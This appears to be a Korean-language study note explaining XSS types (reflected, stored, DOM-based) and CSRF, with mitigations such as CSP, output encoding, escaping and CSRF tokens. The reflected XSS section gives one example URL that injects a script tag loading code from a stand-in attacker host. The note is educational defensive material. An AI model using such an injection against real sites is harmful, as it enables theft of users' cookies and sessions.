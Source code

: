 # XSS & CSRF

## XSS (Cross-Site-Scripting)
- 사용자를 대상으로 한 공격이다.
- JS를 통해서 의도치않은 동작을 실행시키게 한다.
- 게시판, 웹 메일등에서 발생 할 수 있다.
- Cookie와 같은 사용자의 개인정보를 탈취하기 위해서 사용된다.
  - HTTP-Only-Cookie
  - Secure-Cookie

### 1. Reflected XSS
- **공격자가 제공한 입력값이 서버로 전송 된후, 서버의 처리 이후 클라이언트에게 그대로 반환되며 발생한다.**
- 주로 URL 파라미터를 통한 GET 요청 (with QueryString)을 통해서 발생한다.
- 브라우저 자체에서 차단하는 경우가 많다.
- 사용자에게 악성 스크립트가 포함된 URL을 클릭하게하여, 악성 스크립트를 실행시킨다.
  - Reflect라는 말 그대로 사용자의 입력값 혹은 QueryString(악성스크립트)이 그대로 리턴되고 브라우저에서 실행되서 발생한다.

#### 예시
```html
<!-- 1. 사용자에게 악성스크립트가 포함된 URL을 전송한다.-->
https://trustSite.com?search=<script src="http://attack.com/atack.js"/>

<!-- 2. 서버는 클라이언트의 Input을 검증없이 그대로 리턴하며, 클라이언트는 그대로 브라우저에 렌더링한다. -->
<div class="search__keyword">
  검색어: {response.keyword}
</div>

<!-- 3. 브라우저에 렌더링 된 악성코드는 그대로 실행된다. -->
```

#### 해결책
1. CSP(Content-Security-Policy)
   - 허용된 Resouce만 로드 할 수 있도록 제한한다.
2. 출력값 인코딩
    - Client로 리턴되는 데이터를 인코딩 한다.

### 2. Stored XSS
- 가장 위험한 XSS 공격이다.
- 서버상에 악성 스크립트가 저장된 형태이다.
- SQL Injection 같이, 평문이 아닌 스크립트를 서버에서 검증없이 받을 때 발생한다.
- 서버 (DB)에 저장된 악성스크립트가 그대로 사용자에게 전해지고, 실행되게 된다.
- HTML5에서는 Inner HTML에서의 Scrit실행을 막아두었다.
  - 완벽한 해결책은 아니다.
  - innerHTML 외에, 다른 방식으로의 스크립트 삽입이 가능하다.
  - 이전 버전의 브라우저들은 지원하지 않을 수 있다.

#### 예시
```html
<!--div태그 안의 Text는  -->
<div class="post__description">
  안녕하세요! 오늘의 날씨는 정말 좋네요. 
  <script>/* 악성 코드 */</script> 
  좋은 하루 보내세요!
</div>
```

#### 해결책
1. 입력값 검증 및 정제
   - 필터링, 화이트 리스트 등을 통한 정제
2. 출력값 이스케이핑
   - '<'와 '>'를 각각 '\&lt;'와 '\&gt;'로 변경한다.
3. innerHTML이 아닌 다른 것들 사용 (순전하게 Text로 인식하는 것들)
   - appendChild
   - textContent

### 3. DOM-Based XSS (Dom 기반 XSS
- DOM을 조작하여 악성 스크립트를 실행시키는 방식이다.
- Client단 JavaScript 코드가 취약점을 갖고있는 경우 발생한다.
- **사용자의 입력을 처리하는 과정에서 DOM을 조작하여 악성 스크립트를 실행한다.**
- **Reflected XSS와 같지만 (Client에서 공격자의 input이 그대로 렌더링) Server를 거치지 않는다는 점에서 다르다.**

#### 해결책
1. CSP(Content-Security-Policy)
    - 허용된 Resouce만 로드 할 수 있도록 제한한다.
2. 출력값 인코딩
    - Client로 리턴되는 데이터를 인코딩 한다.
   
***

## CSRF (Cross-Site-Request-Forgery)
- 탈취가 목적이 아닌, 비정상적인 동작을 하게 하는 것이 목적이다.
- 사용자가 인증된 상태에서 의도하지 않은채로, 해커의 의도한 행위를 하게되는 것이다.
  - 의도치 않게 서버를 공격한다.
- 서버가 사용자를 신뢰하기 때문에 발생한다.
  - 로그인되어 있는 상태로 서버에 비정상적인 명령을 내리기 때문이다.

### 조건
1. 로그인이 되어있어야 한다.
2. 해커가 제공한 사이트에 접속해야한다.

### 방지책
- Referrer를 통한 도메인 일치 검증 
  - Referrer를 보내지 안흔 사용자에게는 이방법을 사용할 수 없다. (요즘엔 거의 없다.)
- CSRF Token 사용
  - 요청, 세션 마다 Token을 서버에서 발급한다.
  - 이전 응답시점에 발급했던 CSRF토큰과, 현재 Cleint의 요청에 동봉된 CSRF의 일치 여부를 확인한다.
  - 잠재적인 CSRF 위협을 방지한다.